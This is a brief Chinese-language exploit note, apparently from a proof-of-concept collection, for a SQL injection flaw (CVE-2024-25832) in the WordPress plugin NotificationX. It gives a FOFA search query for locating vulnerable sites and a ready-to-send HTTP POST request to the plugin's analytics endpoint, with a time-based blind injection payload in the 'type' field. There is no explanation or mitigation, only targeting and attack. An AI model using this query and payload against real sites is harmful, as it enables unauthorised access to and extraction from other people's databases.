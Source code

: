 ## WordPress插件NotificationX存在sql注入漏洞(CVE-2024-25832)

## fofa
```
body="/wp-content/plugins/notificationx"
```

## poc
```
POST /wp-json/notificationx/v1/analytics HTTP/1.1
Host: 
Content-Type: application/json

{"nx_id": "1","type": "clicks`=1 and 1=sleep(5)-- -"}
```

